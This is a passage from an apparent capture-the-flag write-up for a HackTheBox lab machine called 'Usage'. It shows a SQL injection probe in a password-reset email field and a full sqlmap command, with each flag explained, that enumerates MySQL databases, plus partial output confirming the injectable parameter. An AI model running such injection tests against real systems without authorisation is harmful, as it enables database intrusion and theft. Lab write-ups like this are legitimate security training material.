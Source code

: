 ![img](/assets/img/Usage/5.webp)

## SQL Injection / Cracking the Password

Next, I hit the "Forget Password" link. I noticed a potential SQL injection vulnerability when I sent `hello@me.htb'` in the email field - the server returned a 500 error

![img](/assets/img/Usage/6.webp)

I fired up `sqlmap` to exploit this vulnerability

- `-r` flag tells `sqlmap` to use a request file (in this case `pass_reset.txt`) containing the HTTP request I sent to trigger the error capture via Brup
- `-p` flag specifies the parameter to target (`email`)
- `--batch` runs in automated mode so you do not have to keep pressing 'Y'
- `--level 4 --risk 3` sets the intensity of the attack
- `--dbms=mysql` tells `sqlmap` to target a MySQL database
- `--dbs` tells `sqlmap` to enumerate the databases

```bash
$ python3 sqlmap.py -r ../pass_reset.txt -p email --batch --level 4 --risk 3 --dbms=mysql --dbs

...snip...

20:16:48] [INFO] checking if the injection point on POST parameter 'email' is a false positive                                        
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N                                         
sqlmap identified the following injection point(s) with a total of 1026 HTTP(s) requests:                                              
---                                                                                                                                    
Parameter: email (POST)                                                                                                                
```
